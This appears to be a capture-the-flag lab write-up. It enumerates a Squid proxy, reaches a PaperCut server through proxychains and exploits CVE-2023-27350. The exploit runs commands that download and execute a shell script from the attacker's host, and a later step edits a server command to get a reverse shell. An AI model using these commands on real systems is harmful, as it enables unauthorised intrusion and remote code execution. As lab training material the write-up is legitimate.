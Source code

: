 # Enumeration
Post 22 
Port 3189 -- Squid

Using proxychains to add the squid proxy:
![](attachment/a81d3f8513eb141a1ee88c2b039447bc.png)
Then using squidscan to check open ports:
```
go mod tidy
go build
./squidscan
```

![](attachment/f9831a489448ba72f31da3fcf86a59f0.png)
We found 5 ports.
Using proxychains to do nmap scan:
![](attachment/5430aea28ba49c4fcae08e4a367158ae.png)

Now adding proxy in burpsuite:
![](attachment/31c0d8d5ae8545cc157289557a177d7b.png)

![](attachment/4c9f746c190237ef6f3009f7f06af819.png)

On port 9191:
![](attachment/6fcba4dfcbbccb05477c7b1b62bf8c6b.png)

Now we found a papercut exploit on github:
https://github.com/horizon3ai/CVE-2023-27350/tree/main

Using this:
```
proxychains python3 CVE-2023-27350.py -u http://10.10.82.145:9191 -c 'wget http://10.8.1.208/shell.sh' 

proxychains python3 CVE-2023-27350.py -u http://10.10.82.145:9191 -c 'chmod +x shell.sh'

proxychains python3 CVE-2023-27350.py -u http://10.10.82.145:9191 -c './shell.sh' 
```

Using linpeas there are writable e 
Now using authentication bypass:
https://www.exploit-db.com/exploits/51391
![](attachment/fd252b8d1a1797acbf53309ac9e57c74.png)


Now in enable printing: ![](attachment/90499d2df7b0301367be3e12d5302900.png)

When clicking refresh servers![](attachment/dd740ea9bd81c9e6e6957c1041e5f5e7.png)
In pspy64 we can see server-command get executed.

So editing it to get a reverse shell.![](attachment/daeeede0b9401aa846f4c3fbb639d59a.png)

![](attachment/4230e85a28825efa467a94dec116c006.png)